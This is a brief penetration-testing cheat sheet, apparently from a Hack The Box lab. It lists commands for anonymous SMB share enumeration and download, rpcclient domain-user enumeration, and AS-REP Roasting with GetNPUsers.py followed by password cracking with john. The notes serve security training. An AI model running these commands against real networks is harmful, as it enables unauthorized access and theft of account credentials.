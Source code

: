 ### SMB :
       smbclient -U "" -L //<ip>         ->  -L flag Get a list of shares available on a host
       smbcleint -U "" //<ip>            ->  Connects to our users shares
 
       smb: \> recurse on               ->  Recursively list the contents
       smb: \> ls
       
       mget                             ->  Downloads file
       
       smbget -R smb://<ip>/path/ -U "" -> -R flag recursive download smbfiles owned by -U
       
### rpcclient:
      rpcclient -U "" -N 10.10.10.161
      commands:
               enumdomusers
               queryuser

### AS-REP Roasting:
      ./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt
      john --wordlist=/usr/share/wordlists/rockyou.txt hash
